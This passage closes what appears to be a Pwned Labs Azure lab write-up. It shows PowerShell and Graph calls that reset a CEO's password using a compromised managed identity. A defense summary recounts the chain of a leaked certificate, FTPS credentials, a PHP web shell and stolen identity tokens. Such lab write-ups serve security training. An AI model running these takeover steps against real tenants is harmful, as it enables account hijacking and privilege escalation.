 ```
}

$body = @{
    passwordProfile = @{
        forceChangePasswordNextSignIn = $false
        password = "<REDACTED>"
    }
} | ConvertTo-Json

$response = Invoke-RestMethod -Uri "https://graph.microsoft.com/v1.0/users/fd643bf6-23f4-4daa-b8d9-c79d9a02e24d" -Headers $headers -Method PATCH -Body $body
```
With Graph module
```
$passwordProfile = @{
    forceChangePasswordNextSignIn = $false
    password = "<REDACTED>"
}
```
```
└─PS> Update-MgUser -UserId fd643bf6-23f4-4daa-b8d9-c79d9a02e24d -PasswordProfile $passwordProfile
```

We successfully login as CEO

![](passwordless-credentials-for-access-and-escalation-4.png)

# Attack Path
Attack path visualization created by [Mathias Persson](https://www.linkedin.com/in/mathias-persson-582b60197/) for Pwned Labs

![](passwordless-credentials-for-access-and-escalation-5.png)

# Defense

- Exposed HrPortal service principal certificate was the primary cause of the breach
  - Website Contributor privileges allowed us to retrieve FTPS credentials contained in the publish profile
  - Allowed uploading a PHP web shell 
  - Exfiltrated the `IDENTITY_HEADER` and `IDENTITY_ENDPOINT` headers to contruct a request for a ARM and Graph access token for managed identity
- Compromised managed identity had been assigned User Administrator privileges scoped to this administrative unit
  - HR administrative unit had Mega Big Tech CEO as a member
  - Successfully reset CEO's password and got access to other resources
- It's important to detect on malicious activity as soon as possible. The security team could use Sentinel to alert on unusual service principal usage that may indicate malicious activity.

![](passwordless-credentials-for-access-and-escalation-6.png)
